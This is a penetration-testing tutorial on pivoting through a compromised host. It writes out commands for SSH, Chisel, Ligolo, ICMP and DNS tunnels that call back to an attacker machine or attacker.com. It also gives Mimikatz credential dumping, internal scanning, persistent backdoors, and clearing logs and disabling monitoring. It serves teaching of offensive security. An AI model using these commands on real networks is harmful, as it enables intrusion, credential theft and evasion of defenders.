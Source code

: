 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. ### Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. ### Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. ### Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. ### Establish Pivoting
    - #### SSH Tunneling (Dynamic and Local Port Forwarding)
        - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
        - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
        - Then use ProxyChains
            - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
            - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
    - #### Chisel (Fast TCP/UDP Tunneling)
        - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
        - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
        - Use ProxyChains with Chisel for further tunneling.
    - #### Ligolo (Auto Route Creation)
        - Setup network configuration
          ```bash
              ip tuntap add user root mode tun ligolo
              ip link set ligolo up
          ```
        - On attacker's machine: `./ligolo -reverse -listen :9090`
        - On compromised machine: `./ligolo -connect attacker-ip:9090`
        - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
           ```bash
           ip route add 192.168.148.0/24 dev ligolo
           ip route list
           ```
          
    - #### Metasploit Pivoting
        - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
        - Use socks4a module to enable ProxyChains:
          ```bash
          use auxiliary/server/socks4a
          set SRVPORT 1080
          exploit
          ```
    - #### SSHuttle Pivoting
        - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
    - #### Plink (PuTTY Link) Pivoting
        - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
    - #### RDP Pivoting
        - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
    - #### ICMP Tunneling
        - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
    - #### DNS Tunneling
        - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. ### Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. ### Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. ### Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
